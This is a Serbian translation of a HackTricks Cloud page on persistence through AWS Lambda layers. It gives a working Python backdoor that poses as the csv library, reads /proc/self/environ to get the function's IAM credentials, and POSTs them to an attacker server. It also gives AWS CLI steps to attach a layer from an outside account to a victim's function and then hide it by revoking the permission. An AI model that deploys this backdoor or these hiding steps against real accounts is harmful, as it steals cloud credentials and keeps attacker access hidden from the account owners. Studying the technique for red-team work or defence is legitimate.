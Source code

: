 # AWS - Lambda Layers Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

Lambda sloj je .zip datoteka koja **može sadržati dodatni kod** ili drugi sadržaj. Sloj može sadržati biblioteke, [prilagođeno izvršno okruženje](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), podatke ili konfiguracione datoteke.

Moguće je uključiti do **pet slojeva po funkciji**. Kada uključite sloj u funkciju, **sadržaj se ekstraktuje u `/opt`** direktorijumu u izvršnom okruženju.

Po **zadovoljstvu**, **slojevi** koje kreirate su **privatni** za vaš AWS nalog. Možete odlučiti da **podelite** sloj sa drugim nalozima ili da **napravite** sloj **javnim**. Ako vaše funkcije koriste sloj koji je objavio drugi nalog, vaše funkcije mogu **nastaviti da koriste verziju sloja nakon što je obrisana, ili nakon što je vaša dozvola za pristup sloju opozvana**. Međutim, ne možete kreirati novu funkciju ili ažurirati funkcije koristeći obrisanu verziju sloja.

Funkcije koje su implementirane kao kontejnerska slika ne koriste slojeve. Umesto toga, pakujete svoje omiljeno izvršno okruženje, biblioteke i druge zavisnosti u kontejnersku sliku kada gradite sliku.

### Python load path

Putanja učitavanja koju će Python koristiti u lambda je sledeća:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Proverite kako **druga** i treća **pozicija** zauzimaju direktorijumi gde **lambda slojevi** raspakuju svoje datoteke: **`/opt/python/lib/python3.9/site-packages`** i **`/opt/python`**

{% hint style="danger" %}
Ako napadač uspe da **ubaci** zaraženi lambda **sloj** ili **doda jedan** koji će **izvršavati proizvoljan kod kada se učita uobičajena biblioteka**, moći će da izvrši zlonamerni kod sa svakim pozivom lambda funkcije.
{% endhint %}

Stoga, zahtevi su:

* **Proverite biblioteke** koje su **učitane** kodom žrtve
* Kreirajte **proxy biblioteku sa lambda slojevima** koja će **izvršavati prilagođeni kod** i **učitati originalnu** biblioteku.

### Učitane biblioteke

{% hint style="warning" %}
Kada se zloupotrebljava ova tehnika, naišao sam na poteškoću: Neke biblioteke su **već učitane** u python runtime kada se vaš kod izvršava. Očekivao sam da pronađem stvari poput `os` ili `sys`, ali **čak je i `json` biblioteka bila učitana**.\
Da bi se zloupotrebljavala ova tehnika postojanosti, kod mora da **učita novu biblioteku koja nije učitana** kada se kod izvršava.
{% endhint %}

Sa python kodom poput ovog moguće je dobiti **listu biblioteka koje su unapred učitane** unutar python runtime-a u lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
I ovo je **lista** (proverite da li su biblioteke kao što su `os` ili `json` već prisutne)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
I ovo je lista **biblioteka** koje **lambda uključuje instalirane po defaultu**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Layer Backdooring

U ovom primeru pretpostavimo da ciljani kod uvozi **`csv`**. Mi ćemo **napraviti backdoor za uvoz `csv` biblioteke**.

Da bismo to uradili, kreiraćemo **direktorijum csv** sa fajlom **`__init__.py`** u njemu na putanji koja se učitava od strane lambda: **`/opt/python/lib/python3.9/site-packages`**\
Zatim, kada se lambda izvrši i pokuša da učita **csv**, naš **`__init__.py` fajl će biti učitan i izvršen**.\
Ovaj fajl mora:

* Izvršiti naš payload
* Učitati originalnu csv biblioteku

Možemo uraditi oboje sa:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Zatim, kreirajte zip sa ovim kodom na putanji **`python/lib/python3.9/site-packages/__init__.py`** i dodajte ga kao lambda layer.

Ovaj kod možete pronaći na [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Integrisani payload će **poslati IAM kredencijale na server PRVI PUT kada se pozove ili NAKON resetovanja lambda kontejnera** (promena koda ili hladna lambda), ali **druge tehnike** kao što su sledeće takođe mogu biti integrisane:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Eksterni Layeri

Napomena da je moguće koristiti **lambda layer-e iz eksternih naloga**. Štaviše, lambda može koristiti layer iz eksternog naloga čak i ako nema dozvole.\
Takođe, napomena da je **maksimalan broj layer-a koje lambda može imati 5**.

Stoga, kako bi poboljšao svestranost ove tehnike, napadač bi mogao:

* Backdoor-ovati postojeći layer korisnika (ništa nije eksterno)
* **Kreirati** **layer** u **svojim nalogu**, dati **nalogu žrtve pristup** da koristi layer, **konfigurisati** **layer** u žrtvinom Lambda i **ukloniti dozvolu**.
* **Lambda** će i dalje moći da **koristi layer** i **žrtva neće** imati lak način da **preuzme kod layer-a** (osim ako ne dobije rev shell unutar lambda)
* Žrtva **neće videti eksterne layer-e** korišćene sa **`aws lambda list-layers`**
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
